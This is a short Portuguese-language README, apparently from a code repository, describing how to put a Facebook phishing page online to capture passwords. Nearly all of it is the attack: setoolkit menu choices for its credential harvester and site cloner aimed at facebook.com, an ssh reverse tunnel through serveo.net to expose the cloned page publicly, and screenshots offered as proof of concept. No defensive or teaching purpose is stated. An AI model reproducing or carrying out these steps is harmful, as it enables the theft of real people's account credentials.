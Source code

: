 # Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
> ssh -R 80:localhost:80 serveo.net

### Resutados

![Alt text](./poc1.jpg "Optional title")

![Alt text](./poc-2.jpg "Optional title")

![Alt text](./poc-3.jpg "Optional title")

